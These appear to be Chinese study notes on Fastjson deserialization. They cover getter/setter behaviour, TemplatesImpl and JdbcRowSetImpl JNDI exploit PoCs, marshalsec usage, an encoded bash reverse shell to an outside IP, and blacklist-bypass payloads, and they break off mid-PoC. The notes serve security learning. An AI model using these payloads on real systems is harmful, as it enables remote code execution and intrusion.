





# FastJson反序列化学习

## 1. 什么是fastjson?

fastjson是阿里巴巴的开源JSON解析库，它可以解析JSON格式的字符串，支持将Java Bean序列化为JSON字符串，也可以从JSON字符串反序列化到JavaBean。

## 2. fastjson的优点

速度快，使用广泛，测试完备，使用简单

```
String text = JSON.toJSONString(obj); //序列化
VO vo = JSON.parseObject("{...}", VO.class); //反序列化
```

## 3. 下载和使用

配置maven依赖

```xml
<dependency>
    <groupId>com.alibaba</groupId>
    <artifactId>fastjson</artifactId>
    <version>1.2.24</version>
</dependency>
```

### 序列化与反序列化

Main.java

```java
package org.example;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;
import com.alibaba.fastjson.serializer.SerializerFeature;

import java.util.Date;

/**
 * @author L1ao
 * @version 1.0
 */
public class Main {
    public static void main(String[] args) {
        Person person = new Person(15, "L1ao", new Date());
        String jsonOutput= JSON.toJSONString(person, SerializerFeature.WriteClassName);
        System.out.println(jsonOutput);
        String jsonInput = "{\"age\":15,\"dateOfBirth\":1682316963541,\"fullName\":\"L1ao\"}";
        String jsonInput2 = "{\"@type\":\"org.example.Person\",\"age\":15,\"dateOfBirth\":1682317227768,\"fullName\":\"L1ao\"}";
        Person newPerson = JSON.parseObject(jsonInput, Person.class);
        System.out.println(newPerson.getFullName());
        JSONObject newPerson2 = JSON.parseObject(jsonInput2);
        System.out.println(newPerson2.get("fullName"));
    }
}
```

Person.java

```java
package org.example;

import java.util.Date;

/**
 * @author L1ao
 * @version 1.0
 */
public class Person {
    private int age;


    private String fullName;


    private Date dateOfBirth;

    public Person() { //注意反序列化时为对象时，必须要有默认无参的构造函数，否则会报异常
    }

    public Person(int age, String fullName, Date dateOfBirth) {
        super();
        this.age = age;
        this.fullName = fullName;
        this.dateOfBirth = dateOfBirth;
    }

    public int getAge() {
        return age;
    }

    public String getFullName() {
        return fullName;
    }

    public Date getDateOfBirth() {
        return dateOfBirth;
    }

    public void setAge(int age) {
        this.age = age;
    }

    public void setFullName(String fullName) {
        this.fullName = fullName;
    }

    public void setDateOfBirth(Date dateOfBirth) {
        this.dateOfBirth = dateOfBirth;
    }
}
```

分析序列化过程（参考知识星球中的来分析一下各种情况下getter和setter的效果）

User.java

```java
package org.example;

import java.util.Properties;

/**
 * @author L1ao
 * @version 1.0
 */
public class User {
    public String name1; //public且有get set
    public String name2; //public且有get
    public String name3; //public且有set
    public String name4; //仅仅public
    private String age1; //private且有get set
    private String age2; //private且有get
    private String age3; //private且有set
    private String age4; //仅仅private
    public Properties prop1_1; //public且有get set
    public Properties prop1_2; //public且有get
    public Properties prop1_3; //public且有set
    public Properties prop1_4; //仅仅public
    private Properties prop2_1; //private且有get set
    private Properties prop2_2; //private且有get
    private Properties prop2_3; //private且有set
    private Properties prop2_4; //仅仅private

    @Override
    public String toString() {
        return "User{" +
                "name1='" + name1 + '\'' +
                ", name2='" + name2 + '\'' +
                ", name3='" + name3 + '\'' +
                ", name4='" + name4 + '\'' +
                ", age1='" + age1 + '\'' +
                ", age2='" + age2 + '\'' +
                ", age3='" + age3 + '\'' +
                ", age4='" + age4 + '\'' +
                ", prop1_1=" + prop1_1 +
                ", prop1_2=" + prop1_2 +
                ", prop1_3=" + prop1_3 +
                ", prop1_4=" + prop1_4 +
                ", prop2_1=" + prop2_1 +
                ", prop2_2=" + prop2_2 +
                ", prop2_3=" + prop2_3 +
                ", prop2_4=" + prop2_4 +
                '}';
    }

    public String getName1() {
        String methodName = Thread.currentThread().getStackTrace()[1].getMethodName();
        System.out.println(methodName + "() is called");
        return name1;
    }

    public void setName1(String name1) {
        String methodName = Thread.currentThread().getStackTrace()[1].getMethodName();
        System.out.println(methodName + "() is called");
        this.name1 = name1;
    }

    public String getName2() {
        String methodName = Thread.currentThread().getStackTrace()[1].getMethodName();
        System.out.println(methodName + "() is called");
        return name2;
    }

    public void setName3(String name3) {
        String methodName = Thread.currentThread().getStackTrace()[1].getMethodName();
        System.out.println(methodName + "() is called");
        this.name3 = name3;
    }

    public String getAge1() {
        String methodName = Thread.currentThread().getStackTrace()[1].getMethodName();
        System.out.println(methodName + "() is called");
        return age1;
    }

    public void setAge1(String age1) {
        String methodName = Thread.currentThread().getStackTrace()[1].getMethodName();
        System.out.println(methodName + "() is called");
        this.age1 = age1;
    }

    public String getAge2() {
        String methodName = Thread.currentThread().getStackTrace()[1].getMethodName();
        System.out.println(methodName + "() is called");
        return age2;
    }

    public void setAge3(String age3) {
        String methodName = Thread.currentThread().getStackTrace()[1].getMethodName();
        System.out.println(methodName + "() is called");
        this.age3 = age3;
    }

    public Properties getProp1_1() {
        String methodName = Thread.currentThread().getStackTrace()[1].getMethodName();
        System.out.println(methodName + "() is called");
        return prop1_1;
    }

    public void setProp1_1(Properties prop1_1) {
        String methodName = Thread.currentThread().getStackTrace()[1].getMethodName();
        System.out.println(methodName + "() is called");
        this.prop1_1 = prop1_1;
    }

    public Properties getProp1_2() {
        String methodName = Thread.currentThread().getStackTrace()[1].getMethodName();
        System.out.println(methodName + "() is called");
        return prop1_2;
    }


    public void setProp1_3(Properties prop1_3) {
        String methodName = Thread.currentThread().getStackTrace()[1].getMethodName();
        System.out.println(methodName + "() is called");
        this.prop1_3 = prop1_3;
    }


    public Properties getProp2_1() {
        String methodName = Thread.currentThread().getStackTrace()[1].getMethodName();
        System.out.println(methodName + "() is called");
        return prop2_1;
    }

    public void setProp2_1(Properties prop2_1) {
        String methodName = Thread.currentThread().getStackTrace()[1].getMethodName();
        System.out.println(methodName + "() is called");
        this.prop2_1 = prop2_1;
    }

    public Properties getProp2_2() {
        String methodName = Thread.currentThread().getStackTrace()[1].getMethodName();
        System.out.println(methodName + "() is called");
        return prop2_2;
    }

    public void setProp2_3(Properties prop2_3) {
        String methodName = Thread.currentThread().getStackTrace()[1].getMethodName();
        System.out.println(methodName + "() is called");
        this.prop2_3 = prop2_3;
    }

    public User() {
        this.name1 = "L1ao1";
        this.name2 = "L1ao2";
        this.name3 = "L1ao3";
        this.name4 = "L1ao4";
        this.age1 = "a1";
        this.age2 = "a2";
        this.age3 = "a3";
        this.age4 = "a4";
        prop1_1 = new Properties();
        prop1_2 = new Properties();
        prop1_3 = new Properties();
        prop1_4 = new Properties();
        prop1_1.put("prop1_1", "1_1");
        prop1_2.put("prop1_2", "1_2");
        prop1_3.put("prop1_3", "1_3");
        prop1_4.put("prop1_4", "1_4");
        prop2_1 = new Properties();
        prop2_2 = new Properties();
        prop2_3 = new Properties();
        prop2_4 = new Properties();
        prop2_1.put("prop2_1", "2_1");
        prop2_2.put("prop2_2", "2_2");
        prop2_3.put("prop2_3", "2_3");
        prop2_4.put("prop2_4", "2_4");
        System.out.println("User init() is called");
    }
}
```

### 序列化

常用方法

```java
   public static String toJSONString(Object object) {
       return toJSONString(object, emptyFilters);
   }

   public static String toJSONString(Object object, SerializerFeature... features) {
       return toJSONString(object, DEFAULT_GENERATE_FEATURE, features);
   }
......
```

#### 非自省

```java
public static void userSer(){
       User user = new User();
       System.out.println("=====================");
       String jsonOutput= JSON.toJSONString(user);
       System.out.println(jsonOutput);
   }
   输出
   User init() is called
   =====================
   getAge1() is called
   getAge2() is called
   getName1() is called
   getName2() is called
   getProp1_1() is called
   getProp1_2() is called
   getProp2_1() is called
   getProp2_2() is called
   {
       "age1": "a1",
       "age2": "a2",
       "name1": "L1ao1",
       "name2": "L1ao2",
       "name3": "L1ao3",
       "name4": "L1ao4",
       "prop1_1": {
           "prop1_1": "1_1"
       },
       "prop1_2": {
           "prop1_2": "1_2"
       },
       "prop1_3": {
           "prop1_3": "1_3"
       },
       "prop1_4": {
           "prop1_4": "1_4"
       },
       "prop2_1": {
           "prop2_1": "2_1"
       },
       "prop2_2": {
           "prop2_2": "2_2"
       }
   }
观察发现在系列化时会调用getters，public修饰的变量会被赋值，private修饰并没有get的变量不会被赋值
```

#### 自省

JSON 标准是不⽀持⾃省的，也就是说根据 JSON ⽂本，不知道它包含的对象的类型。 FastJson ⽀持⾃省，在序列化时传⼊类型信息 SerializerFeature.WriteClassName ，可以得到能 表明对象类型的 JSON ⽂本。 FastJson 的漏洞就是由于这个功能引起的。

```java
   public static void userSer(){
       User user = new User();
       System.out.println("=====================");
       String jsonOutput= JSON.toJSONString(user,SerializerFeature.WriteClassName);
       System.out.println(jsonOutput);
   }
输出
   User init() is called
   =====================
   getAge1() is called
   getAge2() is called
   getName1() is called
   getName2() is called
   getProp1_1() is called
   getProp1_2() is called
   getProp2_1() is called
   getProp2_2() is called
   {
       "@type": "org.example.User",
       "age1": "a1",
       "age2": "a2",
       "name1": "L1ao1",
       "name2": "L1ao2",
       "name3": "L1ao3",
       "name4": "L1ao4",
       "prop1_1": {
           "@type": "java.util.Properties",
           "prop1_1": "1_1"
       },
       "prop1_2": {
           "@type": "java.util.Properties",
           "prop1_2": "1_2"
       },
       "prop1_3": {
           "@type": "java.util.Properties",
           "prop1_3": "1_3"
       },
       "prop1_4": {
           "@type": "java.util.Properties",
           "prop1_4": "1_4"
       },
       "prop2_1": {
           "@type": "java.util.Properties",
           "prop2_1": "2_1"
       },
       "prop2_2": {
           "@type": "java.util.Properties",
           "prop2_2": "2_2"
       }
   }
新增@type字段用于指明反序列化对象，其他不变
```

### 反序列化

#### 非自省

常用方法

```java
public static <T> T parseObject(String text, Class<T> clazz) {
    return parseObject(text, clazz);
}
......
```

```java
      String jsonInput = "{\"age1\":\"a1\",\"age2\":\"a2\",\"name1\":\"L1ao1\",\"name2\":\"L1ao2\",\"name3\":\"L1ao3\",\"name4\":\"L1ao4\",\"prop1_1\":{\"prop1_1\":\"1_1\"},\"prop1_2\":{\"prop1_2\":\"1_2\"},\"prop1_3\":{\"prop1_3\":\"1_3\"},\"prop1_4\":{\"prop1_4\":\"1_4\"},\"prop2_1\":{\"prop2_1\":\"2_1\"},\"prop2_2\":{\"prop2_2\":\"2_2\"}}";
      User newUser = JSON.parseObject(jsonInput, User.class);
      System.out.println(newUser);
输出
      User init() is called
      setAge1() is called
      setName1() is called
      setName3() is called
      setProp1_1() is called
      setProp1_3() is called
      setProp2_1() is called
      getProp2_2() is called
      User{name1='L1ao1', name2='L1ao2', name3='L1ao3', name4='L1ao4', age1='a1', age2='null', age3='null', age4='null', prop1_1={prop1_1=1_1}, prop1_2={prop1_2=1_2}, prop1_3={prop1_3=1_3}, prop1_4={prop1_4=1_4}, prop2_1={prop2_1=2_1}, prop2_2=null, prop2_3=null, prop2_4=null}
public全部赋值，private有set的被赋值，其他为null，额外调用一次getProp2_2？？为什么
```

#### 自省

JSON.parseObject 除了传⼊ Class clazz ⾮⾃省反序列化，也同样有⾃省反序列化

常用方法

```java
public static JSONObject parseObject(String text) {
    Object obj = parse(text);
    return obj instanceof JSONObject ? (JSONObject)obj : (JSONObject)toJSON(obj);
}
```

```java
      String jsonInput = "{\"@type\":\"org.example.User\",\"age1\":\"a1\",\"age2\":\"a2\",\"name1\":\"L1ao1\",\"name2\":\"L1ao2\",\"name3\":\"L1ao3\",\"name4\":\"L1ao4\",\"prop1_1\":{\"@type\":\"java.util.Properties\",\"prop1_1\":\"1_1\"},\"prop1_2\":{\"@type\":\"java.util.Properties\",\"prop1_2\":\"1_2\"},\"prop1_3\":{\"@type\":\"java.util.Properties\",\"prop1_3\":\"1_3\"},\"prop1_4\":{\"@type\":\"java.util.Properties\",\"prop1_4\":\"1_4\"},\"prop2_1\":{\"@type\":\"java.util.Properties\",\"prop2_1\":\"2_1\"},\"prop2_2\":{\"@type\":\"java.util.Properties\",\"prop2_2\":\"2_2\"}}\n";
      Object newUser = JSON.parseObject(jsonInput);
      System.out.println(newUser);
输出
      User init() is called
      setAge1() is called
      setName1() is called
      setName3() is called
      setProp1_1() is called
      setProp1_3() is called
      setProp2_1() is called
      getProp2_2() is called
      getAge1() is called
      getAge2() is called
      getName1() is called
      getName2() is called
      getProp1_1() is called
      getProp1_2() is called
      getProp2_1() is called
      getProp2_2() is called
      {"prop1_3":{"prop1_3":"1_3"},"prop1_4":{"prop1_4":"1_4"},"name4":"L1ao4","prop1_1":{"prop1_1":"1_1"},"name3":"L1ao3","prop1_2":{"prop1_2":"1_2"},"prop2_1":{"prop2_1":"2_1"},"name2":"L1ao2","name1":"L1ao1","age1":"a1"}
调用了所有getter和setter，其中getProp2_2调用了两次，为什么？？
```

```
String jsonInput = "{\"@type\":\"org.example.User\",\"age1\":\"a1\",\"age2\":\"a2\",\"name1\":\"L1ao1\",\"name2\":\"L1ao2\",\"name3\":\"L1ao3\",\"name4\":\"L1ao4\",\"prop1_1\":{\"@type\":\"java.util.Properties\",\"prop1_1\":\"1_1\"},\"prop1_2\":{\"@type\":\"java.util.Properties\",\"prop1_2\":\"1_2\"},\"prop1_3\":{\"@type\":\"java.util.Properties\",\"prop1_3\":\"1_3\"},\"prop1_4\":{\"@type\":\"java.util.Properties\",\"prop1_4\":\"1_4\"},\"prop2_1\":{\"@type\":\"java.util.Properties\",\"prop2_1\":\"2_1\"},\"prop2_2\":{\"@type\":\"java.util.Properties\",\"prop2_2\":\"2_2\"}}\n";
Object newUser = JSON.parse(jsonInput);
输出
User init() is called
setAge1() is called
setName1() is called
setName3() is called
setProp1_1() is called
setProp1_3() is called
setProp2_1() is called
getProp2_2() is called
调用了所有setter，其中setAge3没有调用是因为传入的json中没有age3字段，至于为什么没有，是因为反序列化时没有get方法并且是private所以没有age3字段
```

### 结论

根据⼏种输出的结果，可以得到每种调⽤⽅式的特点：

parseObject(String text, Class clazz) ，构造⽅法 + setter + 满⾜条件额外的 getter

parseObject(String text) ，构造⽅法 + setter + getter + 满⾜条件额外 的 getter

parse(String text) ，构造⽅法 + setter + 满⾜条件额外的 getter

这个额外条件是什么呢？不解

## 4. TemplatesImpl 反序列化利用链

利用条件：

1. 开启了Feature.SupportNonPublicField
2. fastjson < 1.2.48 ?

先放个exp吧

```java
package org.example;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.alibaba.fastjson.serializer.SerializerFeature;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;

import java.lang.reflect.Field;
import java.util.Base64;

/**
 * @author L1ao
 * @version 1.0
 */
public class Poc {
    public static void setValue(Object obj, String name, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("Runtime.getRuntime().exec(\"calc\");");
        clazz.addConstructor(constructor);
        byte[] bytes = clazz.toBytecode();
        String payload = "{" +
                "\"@type\":\"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl\"," +
                "\"_bytecodes\": [\""+Base64.getEncoder().encodeToString(bytes)+"\"]," +
                "\"_name\":\"L1ao\"," +
                "\"_tfactory\":{ }," +
                "\"_outputProperties\": {}," +
                "\"_name\":\"a\"," +
                "\"_version\":\"1.0\"," +
                "\"allowedProtocols\":\"all\"" +
                "}";
        System.out.println(payload);
        JSON.parseObject(payload, Feature.SupportNonPublicField);
    }
}
```

反序列化会触发getter：getOutputProperties中defineTransletClasses来加载字节码，调用栈如下

```
defineTransletClasses:415, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
getTransletInstance:452, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
newTransformer:485, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
getOutputProperties:506, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
setValue:85, FieldDeserializer (com.alibaba.fastjson.parser.deserializer)
parseField:83, DefaultFieldDeserializer (com.alibaba.fastjson.parser.deserializer)
parseField:773, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:600, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:188, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:184, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
parseObject:368, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:1327, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:1293, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:137, JSON (com.alibaba.fastjson)
parse:193, JSON (com.alibaba.fastjson)
parseObject:197, JSON (com.alibaba.fastjson)
main:46, Poc (org.example)
```



## 5. JNDI && JdbcRowSetImpl利⽤链

1. 不需要开启Feature.SupportNonPublicField
2. 高版本jndi有限制
3. 基于ldap的利⽤⽅式：适⽤jdk版本： JDK 11.0.1 、 8u191 、 7u201 、 6u211 之前。
4. 基于rmi的利⽤⽅式：适⽤jdk版本： JDK 6u132 , JDK 7u122 , JDK 8u113 之前

相关项目：

1. [https://github.com/mbechler/marshalsec](https://github.com/mbechler/marshalsec)
2. [https://github.com/welk1n/JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)

利用过程

Exploit.java

```java
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.io.IOException;
import java.io.Serializable;
import java.util.Hashtable;

public class Exploit implements ObjectFactory, Serializable {
    public Exploit() {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) {
        Exploit exploit = new Exploit();
    }

    public Object getObjectInstance(Object obj, Name name, Context nameCtx,
            Hashtable<?, ?> environment) throws Exception {
        return null;
    }
}
```

marshalsec 使用 command

```bash
javac Exploit.java # 编译成字节码
python3 -m http.server 11012 # 挂载到网上

java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://localhost:11012/#Exploit
```

JNDI-Injection-Exploit 使用 command

```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar [-C] [command] [-A] [address]
eg: java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C calc -A localhost
your command is passed to Runtime.getRuntime().exec() as parameters,
所以这里如果要执行反弹shell等等复杂的命令时可以使用 bash -c {echo,L2Jpbi9zaCAtaSA+JiAvZGV2L3RjcC8xMDEuNDMuNTcuNTIvMTEwMTIgMD4mMQ==}|{base64,-d}|{bash,-i}
```

Poc2.java

```java
package org.example;

/**
 * @author L1ao
 * @version 1.0
 */
import com.alibaba.fastjson.JSON;
public class Poc2 {
    public static void main(String[] args) {
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true"); // jndi高版本默认为false
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true"); // jndi高版本默认为false
        String PoC = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"rmi://localhost:1099/Exploit\", \"autoCommit\":true}";
        JSON.parse(PoC);
    }
}
```

指定恶意利⽤类为 com.sun.rowset.JdbcRowSetImpl

通过setDataSourceName设置指定 RMI / LDAP 恶意服务器

通过setAutoCommit，其中的this.conn == null，会执行 this.connect() 然后是DataSource var2 = (DataSource)var1.lookup(this.getDataSourceName()); 会去lookup你之前设置的恶意服务器达成jndi注入

其中字段的先后顺序会影响赋值的顺序，Poc2中需要dataSourceName先于autoCommit，否则在lookup时dataSourceName为空



## 6. 补丁分析

### 1.2.25

新增了 autoTypeSupport 反序列化 选项，并通过 checkAutoType 函数对加载类进⾏⿊⽩名单过滤和判断。

maven改一下版本

```xml
<dependency>
    <groupId>com.alibaba</groupId>
    <artifactId>fastjson</artifactId>
    <version>1.2.25</version>
</dependency>
```

黑名单

```
0 = "bsh"
1 = "com.mchange"
2 = "com.sun."
3 = "java.lang.Thread"
4 = "java.net.Socket"
5 = "java.rmi"
6 = "javax.xml"
7 = "org.apache.bcel"
8 = "org.apache.commons.beanutils"
9 = "org.apache.commons.collections.Transformer"
10 = "org.apache.commons.collections.functors"
11 = "org.apache.commons.collections4.comparators"
12 = "org.apache.commons.fileupload"
13 = "org.apache.myfaces.context.servlet"
14 = "org.apache.tomcat"
15 = "org.apache.wicket.util"
16 = "org.codehaus.groovy.runtime"
17 = "org.hibernate"
19 = "org.mozilla.javascript"
18 = "org.jboss"
20 = "org.python.core"
21 = "org.springframework"
```

可见 上面的JdbcRowSetImpl利⽤链使用的类 com.sun.rowset.JdbcRowSetImpl 被禁用了（”com.sun.”）

白名单默认为空

autoTypeSupport 为 true ，使⽤⿊名单验证，因此存在绕过⻛险。

绕过POC

```java
package org.example;

/**
 * @author L1ao
 * @version 1.0
 */
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;
import com.sun.rowset.JdbcRowSetImpl;
public class Poc2 {
    public static void main(String[] args) {
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true); // 使用黑名单过滤
        String PoC = "{\"@type\":\"Lcom.sun.rowset.JdbcRowSetImpl;\",\"dataSourceName\":\"rmi://localhost:1099/k5xdee\",\"autoCommit\":true}";
        System.out.println(PoC);
        JSON.parse(PoC);
    }
}
```

即在类名前加L后加;

问题出现在

```
loadClass:1084, TypeUtils (com.alibaba.fastjson.util)
checkAutoType:861, ParserConfig (com.alibaba.fastjson.parser)
parseObject:322, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:1327, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:1293, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:137, JSON (com.alibaba.fastjson)
parse:128, JSON (com.alibaba.fastjson)
main:17, Poc2 (org.example)
```



这里如果类名为L并且;结尾则忽略开头和结尾，以新类名作为参数递归调⽤ loadClass 函数，最终加载 JdbcRowSetImpl 并返回，实现绕过。

如果类名以[开头，则忽略开头，但是是返回array

### 1.2.42

对之前版本进行修复，对黑名单使用类hash

```java
this.denyHashCodes = new long[]{-8720046426850100497L, -8109300701639721088L, -7966123100503199569L, -7766605818834748097L, -6835437086156813536L, -4837536971810737970L, -4082057040235125754L, -2364987994247679115L, -1872417015366588117L, -254670111376247151L, -190281065685395680L, 33238344207745342L, 313864100207897507L, 1203232727967308606L, 1502845958873959152L, 3547627781654598988L, 3730752432285826863L, 3794316665763266033L, 4147696707147271408L, 5347909877633654828L, 5450448828334921485L, 5751393439502795295L, 5944107969236155580L, 6742705432718011780L, 7179336928365889465L, 7442624256860549330L, 8838294710098435315L};
```

网上有对应的：[https://github.com/LeadroyaL/fastjson-blacklist](https://github.com/LeadroyaL/fastjson-blacklist)

修改依赖

```xml
<dependency>
    <groupId>com.alibaba</groupId>
    <artifactId>fastjson</artifactId>
    <version>1.2.41</version>
</dependency>
```

就进行一次substring，双写绕过



Poc

```java
package org.example;

/**
 * @author L1ao
 * @version 1.0
 */
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;
import com.sun.rowset.JdbcRowSetImpl;
